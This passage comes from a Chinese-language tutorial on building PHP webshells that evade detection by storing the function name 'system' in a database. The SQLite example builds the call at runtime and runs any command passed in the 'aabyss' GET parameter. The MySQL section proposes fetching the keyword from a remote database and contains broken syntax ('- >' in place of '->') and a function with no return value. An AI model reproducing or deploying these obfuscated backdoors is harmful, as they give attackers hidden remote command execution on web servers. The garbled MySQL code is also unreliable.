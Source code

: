 可以尝试通过读取数据库内的内容，来获取敏感关键词或者拿到执行命令的关键语句，就可以拼接到 php 中执行恶意的代码了。

### 6.1 Sqlite 数据库

配合我上面写的 `file_put_contents()` 文件写入函数，先写入本地 Sqlite 文件然后读取敏感内容

```plain
$path = "AabyssZG.db";
$db = new PDO("sqlite:" . $path);
//连接数据库后查询敏感关键词
$sql_stmt = $db->prepare('select * from test where name="system"');
$sql_stmt->execute();
//提权敏感关键词并进行拼接
$f = substr($sql_stmt->queryString, -7, 6);
$f($_GET['aabyss']);       //system($_GET['aabyss']);
```

### 6.2 MySQL 数据库

这里使用 `MySQLi()` 这个函数，其实 PHP 有很多 MySQL 连接函数，可自行尝试

然后通过这个函数，连接公网数据库（只要目标能出网），即可连接并获得敏感字符拼接到 php 中

```plain
function coon($sql) {
    $mysqli = new MySQLi("localhost", "test", "test123", "test");
    //默认的 MySQL 的类，其属性与方法见手册
    if ($mysqli - > connect_error) {
        //connect_error 为属性，报错
        die("数据库连接失败：".$mysqli - > connect_errno. "--".$mysqli - > connect_error);
        // connect_errno:错误编号
    }
    $mysqli - > select_db("test"); //选择数据库
    // 返回值 $res 为资源类型（获取到结果的资源类型）
    $res = $mysqli - > query($sql) or die($mysqli - > error);
    //释放结果集，关闭连接
    $mysqli - > close();
}
$sql = "select * from test where name LIKE 'system'";
$arr = coon($sql);
$res = array("data" => $arr);
echo json_encode($res);
```

## 7# PHP 过滤器
